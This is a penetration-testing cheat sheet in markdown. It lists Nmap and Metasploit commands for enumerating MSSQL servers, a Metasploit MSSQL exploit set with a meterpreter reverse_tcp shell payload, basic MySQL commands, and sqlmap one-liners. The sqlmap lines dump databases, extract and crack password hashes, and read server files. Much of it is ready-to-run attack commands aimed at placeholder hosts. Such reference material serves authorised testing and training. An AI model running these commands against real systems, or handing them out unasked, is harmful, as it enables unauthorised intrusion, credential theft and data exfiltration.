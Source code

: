 # Enumeration / Discovery:
### Nmap:
```
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```

### Metasploit:
```
msf > use auxiliary/scanner/mssql/mssql_ping
```
### Bruteforce MSSQL Login
```
msf > use auxiliary/admin/mssql/mssql_enum
```

### Metasploit MSSQL Shell
```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```



# mysql 
### start the mysql databse program
```
sudo mysql 
```
### commands must end in a semicolon.
### Displays all installed databases
```
show databases;
```

### Connects to a specific database
```
use <db>;
```

### Displays all tables in a database
```
show tables;
```

### Displays column names for a given table.
```
describe <table>;
```

### Selects all records from \<table\>.
```
select * from <table>;
```

### Display all installed databases 
```
show databases;
```

## Dump mysql database to text file
### mysqldump
```
sudo mysqldump <table> > /path/to/file.sql
```

# SQLMap Examples
### A mini SQLMap cheat sheet:
Automated sqlmap scan
```
sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3						
```
Targeted sqlmap scan
```
sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php" 	
```
Scan url for union + error based  injection with mysql backend and use a random user agent + database dump
```
sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump
``` 								
sqlmap check form for injection
```
sqlmap -o -u "http://meh.com/form/" --forms
```
sqlmap dump and crack hashes for table users on database-name.
```
sqlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users --dump
```


